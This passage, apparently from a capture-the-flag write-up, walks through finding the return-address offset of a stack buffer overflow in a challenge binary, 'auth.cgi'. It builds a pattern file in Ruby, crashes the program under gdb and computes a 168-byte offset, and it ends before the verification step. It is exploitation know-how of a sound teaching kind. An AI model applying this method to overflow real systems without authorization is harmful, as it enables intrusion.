## Getting the offset

There are a whole bunch of tools for this, but let's built it by hand!

We know that 200 bytes is enough to crash it. Since a memory address is 8 bytes on a 64-bit system, let's create a file that starts with 8 `A`s, 8 `B`s, etc. Do this however you like, but I like Ruby:

```
3.1.3 :007 > puts (?A..?Z).to_a.map { |c| c*8 }.join
AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIIIIIIIJJJJJJJJKKKKKKKKLLLLLLLLMMMMMMMMNNNNNNNNOOOOOOOOPPPPPPPPQQQQQQQQRRRRRRRRSSSSSSSSTTTTTTTTUUUUUUUUVVVVVVVVWWWWWWWWXXXXXXXXYYYYYYYYZZZZZZZZ

3.1.3 :008 > File.write('/tmp/poc.bin', (?A..?Z).to_a.map { |c| c*8 }.join)
 => 208
```

Then run the script in a debugger with that input:

```
$ CONTENT_LENGTH=208 gdb -q ./auth.cgi 
Reading symbols from ./auth.cgi...
(gdb) run < /tmp/poc.bin 
Starting program: /home/ron/projects/ctf/ctf-2024/challenges/cant-give-in/challenge/src/auth.cgi < /tmp/poc.bin
Content-Type: text/plain


Program received signal SIGSEGV, Segmentation fault.
0x000000000040175e in main (argc=1, argv=0x7fffffffdad8) at auth.c:32
```

Note that we set the `CONTENT_LENGTH` environmental variable before running the script, then run the binary with `run < /tmp/poc.bin`. The process crashes, so let's see where it crashes:

```
(gdb) x/i $rip
=> 0x40175e <main+265>: ret
```

Crashing at `ret` is what you'd expect if you overwrote the return address, so that's good news! We can inspect the value in `rsp` to see where it's trying to return to:

```
(gdb) x/xwg $rsp
0x7fffffffd918: 0x5656565656565656
```

Aha! 0x56 is `V`! We can do some math... or, better yet, just use Ruby some more:

```
3.1.3 :001 > puts (?A..?U).to_a.map { |c| c*8 }.join.length
168
```

So 168 bytes are needed before the return address! Let's verify that by creating a file with 168 `A`s followed by 8 `B`s. If it works, we'd expect to crash at `BBBBBBBB` (0x4242424242424242):
